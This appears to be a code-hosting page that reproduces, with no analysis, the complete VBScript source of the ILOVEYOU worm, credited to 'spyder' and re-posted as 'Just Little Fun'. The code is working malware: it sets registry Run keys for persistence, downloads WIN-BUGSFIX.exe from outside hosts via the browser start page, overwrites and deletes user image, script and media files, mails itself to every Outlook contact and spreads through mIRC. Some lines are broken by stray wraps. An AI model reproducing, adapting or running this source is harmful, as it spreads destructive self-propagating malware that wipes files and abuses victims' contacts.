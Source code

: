 # I-LOVE-YOU-VIRUS
VIRUS
I Love You Virüs Source Code 
#Jenjente110 
#Just Little Fun
rem  barok -loveletter(vbe) <i hate go to school> 
 rem by: spyder  /  ispyder@mail.com  /  @GRAMMERSoft Group  /  Manila,Philippines 
 On Error Resume Next 
 dim fso,dirsystem,dirwin,dirtemp,eq,ctr,file,vbscopy,dow 
 eq="" 
 ctr=0 
 Set fso = CreateObject("Scripting.FileSystemObject") 
 set file = fso.OpenTextFile(WScript.ScriptFullname,1) 
 vbscopy=file.ReadAll 
 main() 
 sub main() 
 On Error Resume Next 
 dim wscr,rr 
 set wscr=CreateObject("WScript.Shell") 
 rr=wscr.RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout") 
 if (rr>=1) then 
 wscr.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout",0,"REG_DWORD" 
 end if 
 Set dirwin = fso.GetSpecialFolder(0) 
 Set dirsystem = fso.GetSpecialFolder(1) 
 Set dirtemp = fso.GetSpecialFolder(2) 
 Set c = fso.GetFile(WScript.ScriptFullName) 
 c.Copy(dirsystem&"\MSKernel32.vbs") 
 c.Copy(dirwin&"\Win32DLL.vbs") 
 c.Copy(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs") 
 regruns() 
 html() 
 spreadtoemail() 
 listadriv() 
 end sub 
 sub regruns() 
 On Error Resume Next 
 Dim num,downread 
 regcreate 
 "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKern el32",dirsystem&"\MSKernel32.vbs" 
 regcreate 
 "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunService s\Win32DLL",dirwin&"\Win32DLL.vbs" 
 downread="" 
 downread=regget("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Download Directory") 
 if (downread="") then 
 downread="c:\" 
 end if 
 if (fileexist(dirsystem&"\WinFAT32.exe")=1) then 
 Randomize 
 num = Int((4 * Rnd) + 1) 
 if num = 1 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start 
 Page","http://www.skyinet.net/~young1s/HJKhjnwerhjkxcvytwertnMTFwetrdsfm 
 hPnjw6587345gvsdf7679njbvYT/WIN-BUGSFIX.exe" 
 elseif num = 2 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~angelcat/skladjflfdjghKJnwetryDGFikjUIyqw 
 erWe546786324hjk4jnHHGbvbmKLJKjhkqj4w/WIN-BUGSFIX.exe" 
 elseif num = 3 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start 
 Page","http://www.skyinet.net/~koichi/jf6TRjkcbGRpGqaq198vbFV5hfFEkbopBd 
 QZnmPOhfgER67b3Vbvg/WIN-BUGSFIX.exe" 
 elseif num = 4 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start 
 Page","http://www.skyinet.net/~chu/sdgfhjksdfjklNBmnfgkKLHjkqwtuHJBhAFSD 
 GjkhYUgqwerasdjhPhjasfdglkNBhbqwebmznxcbvnmadshfgqw237461234iuy7thjg/WIN -BUGSFIX.exe" 
 end if 
 end if 
 if (fileexist(downread&"\WIN-BUGSFIX.exe")=0) then regcreate 
 "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\WIN-BU GSFIX",downread&"\WIN-BUGSFIX.exe" 
 regcreate "HKEY_CURRENT_USER\Software\Microsoft\Internet 
 Explorer\Main\Start Page","about:blank" 
 end if 
 end sub 
 sub listadriv 
 On Error Resume Next 
 Dim d,dc,s 
 Set dc = fso.Drives 
 For Each d in dc 
 If d.DriveType = 2 or d.DriveType=3 Then 
 folderlist(d.path&"\") 
 end if 
 Next 
 listadriv = s 
 end sub 
 sub infectfiles(folderspec) 
 On Error Resume Next 
 dim f,f1,fc,ext,ap,mircfname,s,bname,mp3 
 set f = fso.GetFolder(folderspec) 
 set fc = f.Files 
 for each f1 in fc 
 ext=fso.GetExtensionName(f1.path) 
 ext=lcase(ext) 
 s=lcase(f1.name) 
 if (ext="vbs") or (ext="vbe") then 
 set ap=fso.OpenTextFile(f1.path,2,true) 
 ap.write vbscopy 
 ap.close 
 elseif(ext="js") or (ext="jse") or (ext="css") or (ext="wsh") or (ext="sct") or (ext="hta") then 
 set ap=fso.OpenTextFile(f1.path,2,true) 
 ap.write vbscopy 
 ap.close 
 bname=fso.GetBaseName(f1.path) 
 set cop=fso.GetFile(f1.path) 
 cop.copy(folderspec&"\"&bname&".vbs") fso.DeleteFile(f1.path) 
 elseif(ext="jpg") or (ext="jpeg") then 
 set ap=fso.OpenTextFile(f1.path,2,true) 
 ap.write vbscopy 
 ap.close 
 set cop=fso.GetFile(f1.path) 
 cop.copy(f1.path&".vbs") 
 fso.DeleteFile(f1.path) 
 elseif(ext="mp3") or (ext="mp2") then 
 set mp3=fso.CreateTextFile(f1.path&".vbs") 
 mp3.write vbscopy 
 mp3.close 
 set att=fso.GetFile(f1.path) 
 att.attributes=att.attributes+2 
 end if 
 if (eq<>folderspec) then 
 if (s="mirc32.exe") or (s="mlink32.exe") or (s="mirc.ini") or (s="script.ini") or (s="mirc.hlp") then 
 set scriptini=fso.CreateTextFile(folderspec&"\script.ini") scriptini.WriteLine "[script]" 
 scriptini.WriteLine ";mIRC Script" 
 scriptini.WriteLine ";  Please dont edit this script... mIRC will corrupt, if mIRC will" 
 scriptini.WriteLine "    corrupt... WINDOWS will affect and will not run correctly. thanks" 
 scriptini.WriteLine ";" 
 scriptini.WriteLine ";Khaled Mardam-Bey" 
 scriptini.WriteLine ";http://www.mirc.com" 
 scriptini.WriteLine ";" 
 scriptini.WriteLine "n0=on 1:JOIN:#:{" 
 scriptini.WriteLine "n1=  /if ( $nick == $me ) { halt }" scriptini.WriteLine "n2=  /.dcc send $nick 
 "&dirsystem&"\LOVE-LETTER-FOR-YOU.HTM" 
 scriptini.WriteLine "n3=}" 
 scriptini.close 
 eq=folderspec 
 end if 
 end if 
 next 
 end sub 
 sub folderlist(folderspec) 
 On Error Resume Next 
 dim f,f1,sf 
 set f = fso.GetFolder(folderspec) 
 set sf = f.SubFolders 
 for each f1 in sf 
 infectfiles(f1.path) 
 folderlist(f1.path) 
 next 
 end sub 
 sub regcreate(regkey,regvalue) 
 Set regedit = CreateObject("WScript.Shell") 
 regedit.RegWrite regkey,regvalue 
 end sub 
 function regget(value) 
 Set regedit = CreateObject("WScript.Shell") 
 regget=regedit.RegRead(value) 
 end function 
 function fileexist(filespec) 
 On Error Resume Next 
 dim msg 
 if (fso.FileExists(filespec)) Then 
 msg = 0 
 else 
 msg = 1 
 end if 
 fileexist = msg 
 end function 
 function folderexist(folderspec) 
 On Error Resume Next 
 dim msg 
 if (fso.GetFolderExists(folderspec)) then 
 msg = 0 
 else 
 msg = 1 
 end if 
 fileexist = msg 
 end function 
 sub spreadtoemail() 
 On Error Resume Next 
 dim x,a,ctrlists,ctrentries,malead,b,regedit,regv,regad 
 set regedit=CreateObject("WScript.Shell") 
 set out=WScript.CreateObject("Outlook.Application") 
 set mapi=out.GetNameSpace("MAPI") 
 for ctrlists=1 to mapi.AddressLists.Count 
 set a=mapi.AddressLists(ctrlists) 
 x=1 
 regv=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a) if (regv="") then 
 regv=1 
 end if 
 if (int(a.AddressEntries.Count)>int(regv)) then 
 for ctrentries=1 to a.AddressEntries.Count 
 malead=a.AddressEntries(x) 
 regad="" 
 regad=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead ) 
 if (regad="") then 
 set male=out.CreateItem(0) 
 male.Recipients.Add(malead) 
 male.Subject = "ILOVEYOU" 
 male.Body = vbcrlf&"kindly check the attached LOVELETTER coming from me." 
 male.Attachments.Add(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs") male.Send 
 regedit.RegWrite 
 "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead,1,"REG_DWORD" end if 
 x=x+1 
 next 
 regedit.RegWrite 
 "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count else 
 regedit.RegWrite 
 "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count end if 
 next 
 Set out=Nothing 
 Set mapi=Nothing 
 end sub 
 sub html 
 On Error Resume Next 
 dim lines,n,dta1,dta2,dt1,dt2,dt3,dt4,l1,dt5,dt6 
 dta1="<HTML><HEAD><TITLE>LOVELETTER - HTML<?-?TITLE><**** NAME=@-@Generator@-@ CONTENT=@-@BAROK VBS - 
 LOVELETTER@-@>"&vbcrlf& _ "<**** NAME=@-@Author@-@ CONTENT=@-@spyder ?-? ispyder@mail.com ?-? 
 @GRAMMERSoft Group ?-? Manila, Philippines ?-? March 2000@-@>"&vbcrlf& _ "<**** NAME=@-@Description@-@ 
 CONTENT=@-@simple but i think this is good...@-@>"&vbcrlf& _ 
 "<?-?HEAD><BODY 
 ONMOUSEOUT=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU. 
 HTM#-#,#-#main#-#)@-@ "&vbcrlf& _ 
 "ONKEYDOWN=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU. HTM#-#,#-#main#-#)@-@ 
 BGPROPERTIES=@-@fixed@-@ 
 BGCOLOR=@-@#FF9933@-@>"&vbcrlf& _ 
 "<CENTER><p>This HTML file need ActiveX Control<?-?p><p>To Enable to read this HTML file<BR>- Please press #-#YES#-# button to 
 Enable ActiveX<?-?p>"&vbcrlf& _ 
 "<?-?CENTER><MARQUEE LOOP=@-@infinite@-@ 
 BGCOLOR=@-@yellow@-@>----------z--------------------z----------<?-?MARQU EE> "&vbcrlf& _ 
 "<?-?BODY><?-?HTML>"&vbcrlf& _ 
 "<SCRIPT language=@-@JScript@-@>"&vbcrlf& _ "<!--?-??-?"&vbcrlf& _ 
 "if (window.screen){var wi=screen.availWidth;var 
 hi=screen.availHeight;window.moveTo(0,0);window.resizeTo(wi,hi);}"&vbcrl f& _ 
 "?-??-?-->"&vbcrlf& _ 
 "<?-?SCRIPT>"&vbcrlf& _ 
 "<SCRIPT LANGUAGE=@-@VBScript@-@>"&vbcrlf& _ "<!--"&vbcrlf& _ 
 "on error resume next"&vbcrlf& _ 
 "dim fso,dirsystem,wri,code,code2,code3,code4,aw,regdit"&vbcrlf& _ "aw=1"&vbcrlf& _ 
 "code=" 
 dta2="set fso=CreateObject(@-@Scripting.FileSystemObject@-@)"&vbcrlf& _ 
 "set dirsystem=fso.GetSpecialFolder(1)"&vbcrlf& _ "code2=replace(code,chr(91)&chr(45)&chr(91),chr(39))"&vbcrlf& _ 
 "code3=replace(code2,chr(93)&chr(45)&chr(93),chr(34))"&vbcrlf& _ "code4=replace(code3,chr(37)&chr(45)&chr(37),chr(92))"&vbcrlf& _ "set 
 wri=fso.CreateTextFile(dirsystem&@-@^-^MSKernel32.vbs@-@)"&vbcrlf& _ 
 "wri.write code4"&vbcrlf& _ 
 "wri.close"&vbcrlf& _ 
 "if (fso.FileExists(dirsystem&@-@^-^MSKernel32.vbs@-@)) then"&vbcrlf& _ "if (err.number=424) then"&vbcrlf& _ 
 "aw=0"&vbcrlf& _ 
 "end if"&vbcrlf& _ 
 "if (aw=1) then"&vbcrlf& _ 
 "********.write @-@ERROR: can#-#t initialize ActiveX@-@"&vbcrlf& _ "window.close"&vbcrlf& _ 
 "end if"&vbcrlf& _ 
 "end if"&vbcrlf& _ 
 "Set regedit = CreateObject(@-@WScript.Shell@-@)"&vbcrlf& _ 
 "regedit.RegWrite 
 @-@HKEY_LOCAL_MACHINE^-^Software^-^Microsoft^-^Windows^-^CurrentVersion^ 
 -^Run^-^MSKernel32@-@,dirsystem&@-@^-^MSKernel32.vbs@-@"&vbcrlf& _ "?-??-?-->"&vbcrlf& _ 
 "<?-?SCRIPT>" 
 dt1=replace(dta1,chr(35)&chr(45)&chr(35),"'") 
 dt1=replace(dt1,chr(64)&chr(45)&chr(64),"""") dt4=replace(dt1,chr(63)&chr(45)&chr(63),"/") 
 dt5=replace(dt4,chr(94)&chr(45)&chr(94),"\") 
 dt2=replace(dta2,chr(35)&chr(45)&chr(35),"'") 
 dt2=replace(dt2,chr(64)&chr(45)&chr(64),"""") dt3=replace(dt2,chr(63)&chr(45)&chr(63),"/") 
 dt6=replace(dt3,chr(94)&chr(45)&chr(94),"\") 
 set fso=CreateObject("Scripting.FileSystemObject") 
 set c=fso.OpenTextFile(WScript.ScriptFullName,1) 
 lines=Split(c.ReadAll,vbcrlf) 
 l1=ubound(lines) 
 for n=0 to ubound(lines) 
 lines(n)=replace(lines(n),"'",chr(91)+chr(45)+chr(91)) lines(n)=replace(lines(n),"""",chr(93)+chr(45)+chr(93)) 
 lines(n)=replace(lines(n),"\",chr(37)+chr(45)+chr(37)) if (l1=n) then 
 lines(n)=chr(34)+lines(n)+chr(34) 
 else 
 lines(n)=chr(34)+lines(n)+chr(34)&"&vbcrlf& _" end if 
 next 
 set b=fso.CreateTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM") b.close 
 set d=fso.OpenTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM",2) d.write dt5 
 d.write join(lines,vbcrlf) 
 d.write vbcrlf 
 d.write dt6 
 d.close 
 end sub
I Love You Virüs Source Code Edited BY jay paul creator

